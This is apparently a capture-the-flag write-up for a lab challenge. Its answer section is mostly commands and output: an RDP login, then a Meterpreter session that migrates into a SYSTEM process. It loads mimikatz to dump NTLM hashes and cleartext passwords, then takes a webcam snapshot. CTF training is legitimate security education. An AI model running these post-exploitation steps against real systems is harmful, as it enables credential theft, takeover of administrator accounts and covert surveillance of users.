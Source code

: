 # Looking Back AT Yourself

## Points 300

Good work finding a way into the next target!

Have you looked in the mirror lately?

You will find a way to your next target on this machine, as well. You're almost to the end of this series. Don't stop now!

(There is a flag note you must retrieve)

(The path to your next challenge is provided after successful compromise)

(This target will reset every 60 minutes, at the start of the hour)


## Answer

```
root@kali:~# xfreerdp /u:susan.stone.local /p:hunter24LIFE /v:10.110.25.31
```


```
meterpreter > ps -S spool
Filtering on 'spool'

Process List
============

 PID   PPID  Name         Arch  Session  User                 Path
 ---   ----  ----         ----  -------  ----                 ----
 1360  688   spoolsv.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\spoolsv.exe

meterpreter > migrate 1360
[*] Migrating from 2656 to 1360...
[*] Migration completed successfully.
meterpreter > load mimikatz 
Loading extension mimikatz...Success.
meterpreter > load kiwi 
Loading extension kiwi...

  .#####.   mimikatz 2.1.1 20170608 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'    Ported to Metasploit by OJ Reeves `TheColonial` * * */

Success.
meterpreter > creds_all 
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username           Domain          NTLM                              SHA1
--------           ------          ----                              ----
SHOWMECORP-02A$    SHOWMECORP      ba63b0a06bc183d55e07ea6875233974  9c36b4b7bd4fb84026467ba74eb9ffef2e48a859
susan.stone.adm    SHOWMECORP      6b126aa4b3e76b07bf53ab13c9b28349  04c99a34c04d77cb229d3bff8cf574baf6386b75
susan.stone.local  SHOWMECORP-02A  084d6c15b5ae0e4743d30bd2e2bfb9bc  636c860a24c6c3fa8458a3938bf3de2568774d54

wdigest credentials
===================

Username           Domain          Password
--------           ------          --------
(null)             (null)          (null)
SHOWMECORP-02A$    SHOWMECORP      e85NU<!IYT'zLjYf!dv^nqS>PX(Oy"'aN'E&6>G+Wh$e\a^WmP'?ow-SrhDdL:h\MAB?5x\994DZ;s;F`Sx1ED#T;^Z9kZ8/kKjryWKnU\; y=1#$_N9j#;w
susan.stone.adm    SHOWMECORP      fluffybunny123!!!
susan.stone.local  SHOWMECORP-02A  hunter24LIFE

kerberos credentials
====================

Username           Domain            Password
--------           ------            --------
(null)             (null)            (null)
showmecorp-02a$    SHOWMECORP.LOCAL  (null)
susan.stone.adm    SHOWMECORP.LOCAL  (null)
susan.stone.local  SHOWMECORP-02A    (null)



```

```
meterpreter > webcam_list 
1: VirtualBox Webcam - Integrated_Webcam_HD: Integrate
meterpreter > webcam_snap 
[*] Starting...
[+] Got frame
[*] Stopped
Webcam shot saved to: /root/DMBbHpiS.jpeg

```

![](files/DMBbHpiS.jpeg)